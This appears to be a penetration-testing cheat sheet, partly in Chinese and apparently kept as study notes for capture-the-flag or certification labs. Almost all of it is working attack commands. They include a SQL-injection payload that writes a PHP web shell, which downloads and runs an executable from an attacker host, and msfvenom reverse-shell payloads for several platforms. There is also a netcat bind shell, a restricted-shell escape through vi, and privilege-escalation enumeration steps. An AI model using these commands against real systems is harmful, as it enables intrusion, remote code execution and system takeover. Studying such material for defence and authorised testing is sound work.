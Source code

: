 ```
```
- sqli PHP (wget + exe)
```
SELECT "<?php system('powershell -c \"Invoke-WebRequest -Uri http://{IP}/chw_windows.exe -OutFile C:\\windows\\temp\\rs.exe; Start-Process C:\\windows\\temp\\rs.exe\"'); ?>" 
INTO OUTFILE "C:/wamp/www/chw.php"
```
### msfvenom
- `msfvenom -p <PAYLOAD> -f <FORMAT> -o <輸出檔案> <選項>`
- Windows reverse shell:\
`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f exe -o chw.exe`
- Linux reverse shell:\
`msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f elf -o chw.elf`
- PHP reverse Shell:\
`msfvenom -p php/meterpreter_reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f raw > chw.php`
- PowerShell code:\
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh > chw.ps1`
- Base64 encode PowerShell code:\
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=4444 -f psh-cmd`

## Bind Shell
- `nc -l -v -p 6666 -e /bin/sh`
- `nc {IP} 6666`
- 再使用 pyhton 開 Pty: `python3 -c "import pty;pty.spawn('/bin/bash')"`

## Interactive shell
- Vi editor to escape restricted shell
```
tom@DC-2:~$ echo $PATH
/home/tom/usr/bin
tom@DC-2:~$ export PATH=/bin:/usr/bin:$PATH
-rbash: PATH: readonly variable
tom@DC-2:~$ python -c 'import os; os.system("/bin/sh")'
-rbash: python: command not found
tom@DC-2:~$ python3 -c 'import os; os.system("/bin/sh")'
-rbash: python3: command not found
vi

:set shell=/bin/sh
:shell
$ whoami: not found
$ bash -i
/bin/sh: 2: bash: not found
$ export PATH=/bin:/usr/bin:$PATH
$ id
uid=1001(tom) gid=1001(tom) groups=1001(tom)
```


# Privileges Escalation
## Linux
### System
- OS: `uname -a`
- Kernel: `cat /etc/lsb-release`
### Writable File
- `find / -writable -type d 2>/dev/null`
